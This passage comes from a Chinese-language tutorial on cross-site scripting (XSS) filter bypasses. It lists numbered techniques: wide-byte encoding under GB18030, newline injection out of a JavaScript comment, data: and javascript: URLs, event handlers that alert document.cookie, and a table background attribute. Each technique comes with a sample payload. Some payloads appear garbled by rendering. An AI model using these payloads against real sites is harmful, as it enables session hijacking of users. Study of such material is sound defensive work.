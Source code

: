 ```
?t=;alert("Barret李靖")
<script type="text/javascript">
    var t = query(t); // t = "<quot;;alert("Barret李靖")"
</script>

```

<p>上面可以看到 ";" 被编码了，观察页面编码：</p>

```
<meta http-equiv="Content-Type" content="text/html; charset=gb18030">

```

<p>gbxxx系列编码，可以尝试宽字节：</p>

```
?t=%c0%22alert("Barret李靖")

```

<p><strong>8. 攻击单行注释</strong></p>
<p>URL对应的param中添加换行符（%0a）或者其他换行符。</p>

```
?t=%0aalert("Barret李靖")//

// init('id', "%0aalert("Barret李靖")//");

被解析成

// init('id', "
alert("Barret李靖")//");

```

<p><strong>9. url</strong></p>
<p>url中可以使用很多协议 http:// https:// javascript: vbscript: data:等等，利用这些属性，可以找到很多的空隙。</p>

```
<a href="data:text/html,<script>alert(" barret李靖")<="" script="">">XSS</a>

```

<p><strong>10. Flash跨域注入</strong></p>
<p>这个我不太熟悉，现在网页上Flash用的越来越少了，懒得继续看了。</p>
<p><strong>11. 利用事件</strong></p>

```
<iframe src="#" onmouseover="alert(document.cookie)"></iframe>

```

<p><strong>12. 利用标签</strong></p>

```
<table><td background="javascript:alert('xss')">

```
</td></table>
